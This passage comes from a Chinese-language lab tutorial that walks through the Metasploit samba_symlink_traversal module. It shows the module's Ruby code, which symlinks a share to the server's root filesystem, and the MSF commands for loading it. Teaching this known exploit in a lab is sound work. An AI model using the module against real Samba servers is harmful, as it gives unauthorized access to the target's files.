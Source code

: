 ```
    # 尝试进入 root filesystem 文件系统
    print_status("Trying to link '#{datastore['SMBTARGET']}' to the root filesystem...")
    self.simple.client.symlink(datastore['SMBTARGET'], "../" * 10)

    # 进入成功后，在屏幕上输入成功标志
    print_status("Now access the following share to browse the root filesystem:")
    print_status("\t\\\\#{rhost}\\#{datastore['SMBSHARE']}\\#{datastore['SMBTARGET']}\\")
    print_line("")
  end

end 
  

```

代码关键模块讲解结束后，我们在 MSF 终端中，进行实战，输入如下命令：

```
search samba
```

![此处输入图片的描述](../imgs/wm.png)


注意：这一步在实验楼中使用 `search samba` 会花较长的时间，同学们可以直接看老师搜索出来的结果，跳过这一步不会影响实验，造成缓慢的主要原因是因为没有进行缓存。解决的办法是使用缓存命令 `db_rebuild_cache` 进行缓存，提高索引速度：


```
# 使用 samba_symlink_traversal 模块

use auxiliary/admin/smb/samba_symlink_traversal 

# 查看参数

show options
         
```
